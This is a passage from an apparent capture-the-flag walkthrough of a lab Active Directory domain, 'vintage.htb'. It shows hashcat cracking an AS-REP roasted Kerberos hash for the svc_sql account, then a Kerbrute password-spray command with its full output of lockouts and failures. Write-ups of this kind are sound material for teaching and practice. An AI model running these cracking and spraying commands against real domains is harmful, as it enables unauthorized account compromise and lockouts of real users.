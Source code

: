 ```bash
* Keyspace..: 14344386

$krb5asrep$23$svc_sql@VINTAGE.HTB:45da0adfb1f17d7a21c6477b20635edb$5ebc4b7b47601ca7085f297ee1c1988e768052b4007bdb59fece2ac549d1ac6483aacafe1d9c80f622b80430ca4eef035bb6be796d4ef92703d616447ed4de4122f5b7e52ae3808a7d9e489b8a4ed8d8c48c198c22aab0198ffa567730a9fc1714bf02b377eb0f9206100909cb575a36cfa2f1dbf9d94e2b158da8b01b1422e5dbfce68b770a49c417dea8052cc26c2a8ba507e8419c7a5d5fc65be0b8cb503ab5da42f3612eb244e2170196bb646d4feeeb422d48daa67235bd2cb03d6a2e8c3fda74b2c4f63fc9f9bbde1cb3ddbabb38045fa8c481e3afff75f6f83d6e18cb2ab921feffc1379fb4b4:Zer0the0ne
Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework
```

And we see that `Zer0the0ne` is the password for **SVC_SQL**


### KERBRUTE
---
`Kerbrute` is a tool designed to interact with the **Kerberos** protocol, which is the authentication system used in **Active Directory (AD)** environments. In more specific terms, `Kerbrute` is primarily used to perform brute force attacks and username enumeration in a **Kerberos**-based domain.

To force the user, we execute the following command

```bash
❯./kerbrute --dc vintage.htb -d vintage.htb -v passwordspray usernames.txt Zer0the0ne
 
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
 
Version: v1.0.3 (9dad6e1) - 12/04/24 - Ronnie Flathers @ropnop
 
2024/12/04 09:36:16 >  Using KDC(s):
2024/12/04 09:36:16 >   vintage.htb:88
 
2024/12/04 09:36:16 >  [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] Guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] gMSA01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] FS01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] DC01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] Administrator@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_sql@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
```